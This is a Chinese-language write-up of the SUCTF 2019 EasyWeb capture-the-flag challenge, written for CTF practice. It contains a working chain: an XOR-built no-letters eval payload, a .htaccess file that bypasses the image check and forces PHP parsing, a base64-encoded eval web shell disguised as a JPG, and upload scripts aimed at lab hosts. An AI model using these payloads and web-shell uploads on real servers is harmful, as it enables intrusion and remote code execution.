


# [SUCTF 2019]EasyWeb

## 知识点

`php代码审计`

`无字符RCE`

`.htaccess文件利用`

## 解题

题目直接给出了源码

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

很显然需要通过`无字符RCE`去调用上面的`get_the_flag`函数（长度限制导致也用不了其他的）。看到这个长度限制，可以考虑构造`$_GET[]();`的格式来调用，此处`[]`被过滤可以采用`{}`来替代也是一样的。

这里直接采用脚本生成`payload`，[参考文章](https://syunaht.com/p/745812677.html)

```python
import re
# Python中正则不需要在首位加//
preg = '[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+'
payload = "_GET"
istr = ''
jstr = ''
for char in payload:
    check = 0
    for i in range(128, 256):  #“Use of undefined constant” 视ascii码大于0x7f的字符为字符串，7.2后提出要废弃
        for j in range(128, 256):
            if not (re.match(preg, chr(i), re.I) or re.match(preg, chr(j), re.I)):
                if(i ^ j == ord(char)):
                    i = '%{:0>2}'.format(hex(i)[2:])
                    j = '%{:0>2}'.format(hex(j)[2:])
                    istr += i
                    jstr += j
                    check = 1
                    break
        if check == 1:
            break
# php经典特性，没加引号则视为字符串，所以可以不加引号减少字符数
# abc^def等价于(a^d).(b^e).(c^f),前者可以大幅减少字符数
print('${%s^%s}' % (istr, jstr))
```

```
?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=phpinfo
```



接下来就可以考虑`get_the_flag`函数的内容了，该函数主要是写入文件，但是有限制，既文件名不能包含`ph`文件内容也不能包含`<?`，这里可以采用`.htaccess`（`phpinfo`页面可以看出这是`apache`服务器），通过其`php_value auto_append_file`指定文件被`PHP`包含，通过`AddType application/x-httpd-php`指定文件被解析，此外这条配置是兼容`php`伪协议的，所以我们可以采用`php://filter`伪协议进行`base64`编码处理，这样就能绕过对`<?`的检测了。

> 至于`exif_imagetype`对问价内容检测可以通过添加文件头幻术来绕过，`.htaccess`中#作为注释，所以可以采用`XBM`文件的，而上传的`PHP`代码文件可以添加更为方便的`GIF`文件的。
>
> 因为有`exif_imagetype`进行文件头检测，一般是加`GIF89a`进行绕过，但在这里会导致`.htaccess`文件无法正常生效，所以在`.htaccess`文件中加上

`.htaccess`文件内容：

```
#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"
AddType application/x-httpd-php .jpg
```

`poc.jpg`文件内容（因为`base64`按`4`位一解码故文件幻数头补上2位）：

```undefined
GIF89aaa
PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```

上传脚本`php`

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<!--题目链接-->
<form action="http://8d22cfbb-0ec0-42f4-b27f-de6d04423133.node4.buuoj.cn:81/?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=get_the_flag" method="post" enctype="multipart/form-data">
    <label for="file">文件名：</label>
    <input type="file" name="file" id="postedFile"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

上传脚本`python`

```python
import requests
import time

url = r"http://0d14487e-ac86-4a60-811d-d64ddb5f5a9b.node5.buuoj.cn:81/?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=get_the_flag"
session = requests.session()
htaccess_content = '''
#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"
AddType application/x-httpd-php .jpg'''
files_htaccess = {'file': (
    '.htaccess', htaccess_content, 'image/jpeg')}
res_hta = session.post(url, files=files_htaccess)
print(res_hta.text)
shell_file = 'GIF89aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+'
files_shell = {'file': (
    'poc.jpg', shell_file, 'image/jpeg')}
res_jpg = session.post(url, files=files_shell)

print(res_jpg.text)
```


`wp`说是要绕过`disable_functions`，但是`antsword`直接连接就能读取到`flag`



[参考文章1](https://www.cnblogs.com/Article-kelp/p/16097100.html)

[参考文章2](https://syunaht.com/p/745812677.html)